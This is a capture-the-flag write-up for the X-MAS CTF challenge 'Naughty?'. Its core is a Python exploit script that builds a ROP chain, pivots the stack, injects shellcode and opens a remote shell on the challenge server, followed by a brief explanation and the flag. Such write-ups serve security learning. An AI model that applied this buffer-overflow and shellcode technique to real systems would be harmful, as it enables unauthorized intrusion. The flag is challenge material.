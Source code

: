 # Naughty? [50]
You haven't been naughty, have you?

**Target**: nc challs.xmas.htsp.ro 2000

**Author**: Th3R4nd0m

**Files**:naughty.zip

## Solving
I am 99% sure my solve method is miles away from the intended method, so I'm just going to dump the solve script here:
```python
from pwnscripts import *
context.binary = 'chall'

scratch = context.binary.got['puts']+0x500
r = remote('challs.xmas.htsp.ro', 2000)
R = ROP(context.binary)
R.raw(b'a'*46)
R.raw(p16(0xe4ff))
R.raw(scratch)
R.raw(0x40068D)
context.log_level = 'debug'
r.sendlineafter('\n', R.chain())

R = ROP(context.binary)
R.raw(sh().ljust(46))   # https://github.com/152334H/pwnscripts. If not, shellcraft.sh() will also work here
R.raw(p16(0xe4ff))
R.raw(scratch-0x30)
R.raw(scratch-0x30)
r.sendlineafter('\n', R.chain())

r.interactive()
```
Basically, 
1. in the first payload, set the saved rbp to `scratch`, and return to the middle of main at the fgets() call.
2. fgets() will write to [rbp-0x20]. Dump shellcode in there, and then return to it. The saved bp is also set to there so that the shellcode works.
## Flag
`X-MAS{sant4_w1ll_f0rg1ve_y0u_th1s_y3ar}`
